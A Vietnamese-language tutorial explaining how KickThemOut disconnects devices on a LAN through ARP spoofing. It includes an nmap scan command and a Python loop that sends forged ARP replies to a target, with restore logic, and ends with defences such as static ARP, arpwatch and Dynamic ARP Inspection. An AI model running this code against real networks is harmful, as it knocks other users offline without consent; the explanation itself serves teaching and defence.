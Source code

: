 # Giải thích Kỹ thuật "Kick" bằng ARP Spoofing (như trong KickThemOut)

Kỹ thuật này sử dụng ARP Spoofing (hay ARP Poisoning) để làm gián đoạn kết nối mạng của một hoặc nhiều thiết bị trong mạng cục bộ (LAN). Công cụ như `kickthemout.py` thực hiện điều này bằng cách gửi các gói tin ARP (Address Resolution Protocol) giả mạo đến *thiết bị mục tiêu*, khiến chúng không thể giao tiếp đúng cách với gateway (router).

**Cảnh báo:** Thực hiện kỹ thuật này trên một mạng mà bạn không có quyền truy cập là bất hợp pháp và phi đạo đức. Thông tin dưới đây chỉ dành cho mục đích giáo dục và giải thích cách hoạt động của các công cụ như `kickthemout.py`.

## Các Bước Thực Hiện (Theo logic KickThemOut)

### Bước 1: Xác định Mục tiêu và Thông tin Mạng

Đầu tiên, kẻ tấn công cần xác định địa chỉ IP của máy mục tiêu và các thông tin mạng cần thiết khác như địa chỉ IP và MAC của gateway, địa chỉ MAC của chính máy tấn công. Công cụ `kickthemout.py` sử dụng module `scan.py` (dựa trên `nmap`) để quét mạng và thu thập thông tin này tự động.

```bash
# Ví dụ lệnh quét mạng tương tự scan.py (thay 192.168.1.0/24 bằng dải mạng của bạn)
nmap -sn 192.168.1.0/24
```

Giả sử sau khi quét và thu thập thông tin:
*   Địa chỉ IP của mục tiêu: `target_ip = "192.168.1.100"`
*   Địa chỉ MAC của mục tiêu: `target_mac = "BB:BB:BB:BB:BB:BB"`
*   Địa chỉ IP của gateway: `defaultGatewayIP = "192.168.1.1"`
*   Địa chỉ MAC của gateway: `defaultGatewayMac = "AA:AA:AA:AA:AA:AA"` (Cần cho việc khôi phục)
*   Địa chỉ MAC của kẻ tấn công: `my_mac = "CC:CC:CC:CC:CC:CC"` (Lấy từ `defaultInterfaceMac` trong code)

### Bước 2: ARP Spoofing - Gửi gói tin ARP giả mạo tới Mục tiêu

Đây là bước cốt lõi. `kickthemout.py` liên tục gửi các gói tin ARP reply giả mạo *chỉ đến máy mục tiêu*. Gói tin này nói rằng địa chỉ IP của gateway (`defaultGatewayIP`) giờ đây tương ứng với địa chỉ MAC của kẻ tấn công (`my_mac`).

Khi nhận được gói tin này, thiết bị mục tiêu sẽ cập nhật bảng ARP của nó, tin rằng để gửi dữ liệu đến gateway, nó phải gửi đến địa chỉ MAC của kẻ tấn công.

**Logic Code (Dựa trên `kickthemout.py` và `spoof.py`):**

```python
# --- Đoạn code mô phỏng logic chính trong kickthemout.py ---
import spoof # Module chứa hàm sendPacket
import time
import sys
from scapy.all import get_if_hwaddr # Giả sử hàm này lấy MAC attacker

# --- Giả lập các biến đã thu thập ---
defaultInterface = "eth0" # Ví dụ tên interface
defaultGatewayIP = "192.168.1.1"
defaultGatewayMac = "AA:AA:AA:AA:AA:AA" # MAC thật của Gateway (quan trọng để khôi phục)
target_ip = "192.168.1.100"
target_mac = "BB:BB:BB:BB:BB:BB" # MAC thật của mục tiêu
try:
    my_mac = get_if_hwaddr(defaultInterface) # Lấy MAC của kẻ tấn công
except:
    my_mac = "CC:CC:CC:CC:CC:CC" # Giả sử MAC attacker

print(f"[*] Bắt đầu gửi ARP giả mạo tới {target_ip} (Ngắt kết nối)...")
sent_packets_count = 0
try:
    while True:
        # Gửi gói tin giả mạo tới MỤC TIÊU:
        # Nói với mục tiêu (target_ip) rằng IP của gateway (defaultGatewayIP)
        # có địa chỉ MAC của kẻ tấn công (my_mac)
        # Hàm spoof.sendPacket(attacker_mac, spoofed_ip, target_ip, target_mac)
        spoof.sendPacket(my_mac, defaultGatewayIP, target_ip, target_mac)

        sent_packets_count += 1
        print(f"
[+] Gói tin giả mạo đã gửi tới {target_ip}: {sent_packets_count}", end="")
        sys.stdout.flush()
        # kickthemout.py thường gửi liên tục, khoảng cách thời gian có thể tùy chỉnh (-p)
        time.sleep(2) # Giả lập khoảng thời gian gửi

except KeyboardInterrupt:
    print("
[*] Đã nhận tín hiệu dừng. Khôi phục mạng...")
    # --- Logic khôi phục từ kickthemout.py ---
    reArp = 1
    print(f"[*] Gửi gói tin ARP khôi phục tới {target_ip}...")
    while reArp != 10: # Gửi nhiều lần cho chắc
        # Gửi gói tin ARP đúng để khôi phục kết nối
        # Nói với mục tiêu (target_ip) rằng gateway (defaultGatewayIP)
        # thực sự ở địa chỉ MAC thật của gateway (defaultGatewayMac)
        # Hàm spoof.sendPacket(real_source_mac, real_source_ip, target_ip, target_mac)
        try:
             spoof.sendPacket(defaultGatewayMac, defaultGatewayIP, target_ip, target_mac)
        except Exception as e_restore:
             print(f"
[!] Lỗi khi khôi phục: {e_restore}")
        reArp += 1
        time.sleep(0.2)
    print("
[*] Đã gửi xong gói tin khôi phục.")
    sys.exit(0)
except Exception as e:
    print(f"
[!] Lỗi xảy ra: {e}")
    # Cần có logic khôi phục ở đây trong trường hợp lỗi bất ngờ
    sys.exit(1)
```

### Bước 3: Hậu quả - Mục tiêu bị ngắt kết nối

Do bảng ARP của mục tiêu đã bị "đầu độc", mọi lưu lượng mà mục tiêu cố gắng gửi ra ngoài Internet (thông qua gateway) sẽ được gửi đến địa chỉ MAC của kẻ tấn công. Vì máy của kẻ tấn công không phải là gateway thực sự và (trong trường hợp của `kickthemout.py`) không được thiết lập để chuyển tiếp các gói tin này, lưu lượng của mục tiêu sẽ bị loại bỏ. Kết quả là mục tiêu bị mất kết nối mạng.

### Bước 4: Khôi phục Bảng ARP

Khi dừng công cụ (ví dụ, bằng cách nhấn Ctrl+C), `kickthemout.py` thực hiện bước khôi phục. Nó gửi đi các gói tin ARP *đúng* đến mục tiêu, thông báo địa chỉ MAC *thật* của gateway (`defaultGatewayMac`) tương ứng với IP của gateway (`defaultGatewayIP`). Điều này sửa lại bảng ARP trên máy mục tiêu và khôi phục kết nối mạng của họ. Đây là một bước quan trọng để trả lại trạng thái bình thường cho mạng sau khi dừng công cụ.

## Phòng chống

Các biện pháp phòng chống kỹ thuật "kick" bằng ARP Spoofing cũng tương tự như phòng chống ARP Spoofing nói chung:

*   **ARP tĩnh (Static ARP):** Cấu hình thủ công cặp IP-MAC của gateway trên các thiết bị client. Khó quản lý.
*   **Phần mềm phát hiện ARP Spoofing:** Các công cụ như `arpwatch` hoặc các hệ thống phát hiện xâm nhập (IDS/IPS) có thể cảnh báo hoặc chặn các gói tin ARP đáng ngờ.
*   **Dynamic ARP Inspection (DAI):** Tính năng trên switch mạng quản lý được, xác minh tính hợp lệ của gói tin ARP dựa trên thông tin DHCP Snooping. Đây là giải pháp hiệu quả nhất trong môi trường có quản lý.

Hiểu rõ cơ chế hoạt động của kỹ thuật này giúp nhận thức được cách các công cụ như `kickthemout.py` lợi dụng giao thức ARP và tầm quan trọng của việc bảo mật mạng LAN. 